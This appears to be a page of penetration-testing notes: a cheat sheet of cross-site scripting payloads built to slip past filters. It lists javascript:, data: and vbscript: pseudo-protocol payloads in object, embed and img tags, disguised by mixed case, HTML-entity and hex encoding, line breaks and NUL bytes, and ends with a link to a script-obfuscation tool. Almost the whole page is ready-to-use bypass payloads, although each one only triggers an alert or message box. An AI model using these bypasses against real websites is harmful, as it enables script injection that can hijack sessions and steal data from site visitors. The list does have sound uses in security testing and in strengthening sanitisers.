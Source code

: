 Bypass examples:
```js
<object data="JaVScRiPt:alert(1)">
<object data="javascript&colon;:alert(1)">
<object data="java
script:alert(1)">
<object data="javascript&#x003A;alert(1)">
<object data="javascript&#58;alert(1)">
<object data="&#x6A;avascript:alert(1)">
<object data="&#x6A;&#x61;&#x76;&#x61;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x3A;alert(1)">
```

- In addition to **javascript:**, there are also **data:** and the IE exclusive **vbscript:**

Data URI scheme:
```js
data:[<mediatype>][;base64],<data>

# mediatype is usually 'text/html'
```

If **javascript:** is blocked:
```js
<object data="data:text/html,<script>alert(1)</script>">
<object data="data:text/html,base64,<base64 encoded>">
```

If **data:** is blocked:
```js
<embed code="DaTa:text/html,<script>alert(1)</script>">
<embed code="data&colon;text/html,<script>alert(1)</script>">
<embed code="data&#x003A;text/html,<script>alert(1)</script>">
<embed code="&#x64;&#x61;ta:text/html,<script>alert(1)</script>">
```

The **vbscript** pseudo-protocol is not so common, because it can only be used with IE.

- From IE11 in Edge, vbscript is no longer supported.

How to use vbscript:
```js
<img src=a onerror="vbscript:msgbox 1"/> //works till IE8
<img src=b onerror="vbs:msgbox 2"/> //works till IE8
<img src=c onerror="vbs:alert(3)"/>   "//works till IE Edge
<img src=d onerror="vbscript:alert(4)"/>  "//works till IE Edge
```

Bypass vbscript:
```js
<img src=x onerror="vbscript&#x003A;alert(1)"/>    "
<img src=x onerror="vb&#x63;cript:alert(1)"/>       "

<img src=x onerror="v&#00;bs&#x00;cri pt:alert(1)"/> //using NUL bytes
```

Tool to obfuscate:
```js
http://dennisbabkin.com/screnc/
```
